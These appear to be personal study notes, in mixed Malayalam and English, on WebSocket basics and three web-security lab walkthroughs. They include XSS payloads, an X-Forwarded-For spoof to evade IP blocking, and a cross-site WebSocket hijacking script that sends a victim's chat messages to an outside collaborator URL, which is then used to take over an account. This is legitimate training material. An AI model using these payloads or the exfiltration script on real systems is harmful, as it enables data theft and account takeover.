 ## WebSockets :
-->oru http request enganeyan work chyunath enn aadyam nokam.web server umayi connect chyan nammal http/https enna protocols use chyunu.ee protocols use chyth url il namuk venda request ayakunu
-->reqeust ayach response kitunath vere oru TCP connection undakunu.enit response kitikazhinjal aa TCP connection close aakum(Note: port connection undakum).eg: oru site 5 different request ayakunundengil 5 different tcp connections seperate aayi undakkunu.response kitunathinanusarich oru connection um close aakunu
-->Websockets involve aakuna samayath ws:// oru wss:// enna protocol aan use chyuka ie,wss://google.com.ws http pole encruption ila.so wss aan nallath(TLS connection undakum)
-->WebSocket connections are initiated over HTTP.To establish the connection, the browser and server perform a WebSocket handshake over HTTP
-->http/https use unidirectional communication.athayath sender oru request trigger chythale response kitu
-->Websockets are bidirectional.athayath sender can send the data and the receiver can also send the data(sender enthengilum request ayachale server enthengilum ayaku enna paripadi ivide illa) eg: chat application.so browser il namal chat window open chythu enit namude friend in oru hai ayakunu.apol ee mesg server ilek pokunu enit server aan friend in ee hait enna msg ayakunath.so sender um data send chyunu server um data send chyunu
-->Websockets dont close the connection which they open.so oru client server umayi connection establish chythal onnengil client allengil server connection close chyanam alland connection close aakila
-->browser il oke game kalikumbol namuk manual aayi page refresh chyuo onum venda automatic aayi refresh aayikolum karanam namuk connection open aayi thane kidkualle.
-->chat applications heavily use Websockets
-->real time updates kitanengil websockets thane use chyanam.old datas oke kitan aangengil nammal http thane use chyunathan nallath ath ini api aanaengilum
-->presesntly nadakuna datas kitan matharamam wesockets use chyendath
-->websockets il origin vulnerability undakum.so correct aayi origin validate chyanam ilengil cors polula exploit undakam


             Lab-1(Manipulating WebSocket messages to exploit vulnerabilities)
-->burp il prxy tab il http history yude apartheyit websockets history enna tab und athilan websockets inte traffic kanan patuka
-->so ivide lab il oru live chat enna button und so athil click chythal avarumayi namuk chat chyam.burp il nokiyal manasilakum websocket use chythan live chat chyunathenn
-->so message il `<hello > xss` ennoke adikuka enit nokiyal manasilakum `<>` polulla symbols server ilek send chyunathin mumb client side il ninum html-encode chyununden
-->ith manasilkana websockets history alla athinekal nallath intercept on aakuka enit `< hello >` enn adich send adikumbol ath intercept chyum apol thane namuk kanam ee symbols oke html-encode chyununden
-->so nammal enth chyanam ennal client side il ee encoding nadathan anuvadhichooda.so onukoodu intercept on aakuka
-->enit message il enthengilum adikuka.enit intercept chythit avide nammal xss payload kodukuka apol client in encode chyanum patila ath nere server ilek pokukayum chyum xss trigger aakukayum chyum
-->so aadyam enthengilum msg il kodukuka enit ath intercept chyth athile ulla message remove chythit ee paylaod kodukuka ->`<img src=1 onerror='alert(1)'>` enit intercept on aayal ee xss popup trigger aakum

==============================================================

           Lab-2(Manipulating the WebSocket handshake to exploit vulnerabilities)
-->ividem nerthepole live chat il aan test chyunath.so live chat button click chyth message ayakuka
-->enit aa ayacha message repeater ilek viduka.enit oru xss payload kodukuka- `<img src=1 onerror='alert(1)'>` enit repeater il send chyuka
-->apol kanam namude connection terminate aayi athupole thane namale block um aaki
-->so repreater il thane reconnect enna option und athil click chyth reconnect chyan nokumbol connect aakunila
-->so chelapo namude ip adress vech namale block chyunathakum.ath check chyan `X-Forwarded-For: 1.1.1.1` enna header use chyuka enit connect adikumbol namuk pinem reconnect chyan kazhiyunund
-->ini adutha payload check chyanam ->``<img src=1 oNeRrOr=alert`1`>`` ee payload itt test chyumbol error onum kanikunila.illengil attack enno mato kanikum repeateri ile history optionil 
-->repeater il history enna oru box und athil nammal chyunathellam kanikum
-->so ini browser il nammal aa live chat page reload chythal aakila.so burp il intercept on aakuka enit live chat page reload chyuka enit burp il oro request ilum `X-Forwarded-For: 1.1.1.1` ee header kodukanam enit avasanam aa page load aakum apol xss trigger aakum

==============================================================

### cross-site WebSocket hijacking :
-->Cross-site WebSocket hijacking (also known as cross-origin WebSocket hijacking) involves a cross-site request forgery (CSRF) vulnerability on a WebSocket handshake
-->It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values.
-->An attacker can create a malicious web page on their own domain which establishes a cross-site WebSocket connection to the vulnerable application. The application will handle the connection in the context of the victim user's session with the application.
-->The attacker's page can then send arbitrary messages to the server via the connection and read the contents of messages that are received back from the server. This means that, unlike regular CSRF, the attacker gains two-way interaction with the compromised application.
-->oru eg nokam :
             
			  GET /chat HTTP/1.1 
              Host: normal-website.com 
              Sec-WebSocket-Version: 13 
              Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w== 
              Connection: keep-alive, Upgrade 
              Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2 
              Upgrade: websocket
              
-->the above WebSocket handshake request is probably vulnerable to CSRF, because the only session token is transmitted in a cookie
-->==The Sec-WebSocket-Key header contains a random value to prevent errors from caching proxies, and is not used for authentication or session handling purposes==
-->If the WebSocket handshake request is vulnerable to CSRF, then an attacker's web page can perform a cross-site request to open a WebSocket on the vulnerable site. What happens next in the attack depends entirely on the application's logic and how it is using Websockets

==============================================================


           Lab-3(Cross-site WebSocket hijacking)
-->ivide namal lab il keruka enit athil live chat option undakum athil keri enthengilum msg type chyuka enit chat il ninum leave chyuka
-->enit thirich live chat ilek veendum kerumbol kanam nammal nerethe type chytha mesages oke namuk browser il kitunund. ie, that the "READY" command retrieves past chat messages from the server
-->In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no CSRF token
-->ee attack ozhivakan server oru origin: header use chyanam enn thonunu karnam csrf attack nadakumbol vere origin il ninanallo request varuka . ith ilengil victim already logged in aan athupole session cookie und so server in oru samshayavum varila.athukond thane attack nadakum
-->ini aa /chat request il poi right click chyth copy url adikuka.ee request il aan websocket umayi handshake nadakunath so ithinte url aan vendath
-->in csrf script undakam :
 
 <script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
          ws.send("READY");
    };
    ws.onmessage = function(event) {
          fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>

-->namal burp collaborator client use chyunun. ini deliver to exploit adikuka
-->enit collaborator il poi poll click chyuka apol namuk kanan kazhiyum http requests
-->so athil oronum click chyth request oke study chyuka.apol namuk carlos inte past messages oke kanan patum.so athil avan password forgot aayi enn parayunu.
-->so avan password live chat il ayackkodukunu server so aa password eduth carlos aayi log in chyuka apol lab solve aayi ok.